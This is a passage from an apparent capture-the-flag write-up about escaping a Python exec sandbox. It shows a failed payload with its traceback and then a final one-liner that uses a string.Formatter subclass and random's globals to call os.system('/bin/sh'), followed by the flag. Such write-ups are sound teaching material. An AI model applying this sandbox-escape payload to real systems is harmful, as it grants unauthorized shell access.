 
So, let's adapt once again our payload:

```log
nikos@ctf-box:~$ echo -e 'class Baz(string.Formatter): pass; get_field = lambda self, field_name, args, kwargs: (super().get_field(field_name, args, kwargs)[0]("/bin/sh"), ""); \rBaz().format("{0.Random.__init__.__globals__[_os].system}", random)' | python main.py
Well, well well. Let's see just how poisonous you are..
Traceback (most recent call last):
  File "main.py", line 171, in <module>
    print(exec_poisonous(inp))
  File "main.py", line 45, in exec_poisonous
    exec(byte_code, policy_globals, None)
  File "<string>", line 2, in <module>
  File "/home/fane/.pyenv/versions/3.8.13/lib/python3.8/string.py", line 163, in format
    return self.vformat(format_string, args, kwargs)
  File "/home/fane/.pyenv/versions/3.8.13/lib/python3.8/string.py", line 167, in vformat
    result, _ = self._vformat(format_string, args, kwargs, used_args, 2)
  File "/home/fane/.pyenv/versions/3.8.13/lib/python3.8/string.py", line 207, in _vformat
    obj, arg_used = self.get_field(field_name, args, kwargs)
  File "<string>", line 1, in <lambda>
NameError: name 'super' is not defined
```

Hmm.. The `super` global is not available. So, let's adapt our payload for a final time to circumvent that and also maintain `stdin` open. So our final payload is:

`{ echo -e 'class Baz(string.Formatter): pass; get_field = lambda self, field_name, args, kwargs: (string.Formatter.get_field(self, field_name, args, kwargs)[0]("/bin/sh"), ""); \rBaz().format("{0.Random.__init__.__globals__[_os].system}", random)'; cat; } | python main.py`

Let's throw that into the remote to get the flag!

![solve.png](resources/solve.png)

`uiuctf{damn_1_8te_my_ta1l_ag41n}`
